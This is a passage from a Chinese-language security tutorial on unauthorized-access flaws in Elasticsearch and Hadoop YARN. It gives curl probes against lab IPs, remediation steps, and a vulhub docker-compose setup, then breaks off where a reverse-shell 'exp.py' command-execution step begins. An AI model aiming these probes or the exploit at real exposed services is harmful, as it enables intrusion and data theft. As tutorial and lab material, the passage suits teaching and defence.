 1、未授权访问

```shell
$ curl  127.0.0.1:9200
```

![image-20200708235939239](/images/Unauthorized/image-20200708235939239.png)

```shell
$ curl http://172.16.144.135:9200/_nodes
```

![image-20200709002204225](/images/Unauthorized/image-20200709002204225.png)

##### 漏洞修复

1、访问控制策略，限制IP访问，绑定固定IP

2、在config/elasticsearch.yml中为9200端口设置认证等

#### Hadoop 未授权访问

##### 漏洞描述

​		Hadoop是一个由Apache基金会所开发的分布式系统基础架构，由于服务器直接在开放了 Hadoop 机器 HDFS 的 50070 web 端口及部分默认服务端口，黑客可以通过命令行操作多个目录下的数据，如进行删除，下载，目录浏览甚至命令执行等操作，产生极大的危害。

​		Hadoop是一个开源的框架，可编写和运行分布式应用处理大规模数据，是专为离线和大规模数据分析而设计的，并不适合那种对几个记录随机读写的在线事务处理模式。Hadoop=HDFS（文件系统，数据存储技术相关）+ Mapreduce（数据处理），Hadoop的数据来源可以是任何形式，在处理半结构化和非结构化数据上与关系型数据库相比有更好的性能，具有更灵活的处理能力，不管任何数据形式最终会转化为key/value，key/value是基本数据单元。

##### 漏洞验证

0、环境搭建

```shell
//拉取docker-compose
mkdir hadoop
cd hadoop/
wget https://raw.githubusercontent.com/vulhub/vulhub/master/hadoop/unauthorized-yarn/docker-compose.yml
//编译并启动
docker-compose build && docker-compose up -d
```

1、未授权访问

```shell
http://172.16.144.139:8088/cluster
```

![image-20200709140307458](/images/Unauthorized/image-20200709140307458.png)

2 、命令执行

本地监听端口，并执行以下exp脚本。

exp.py
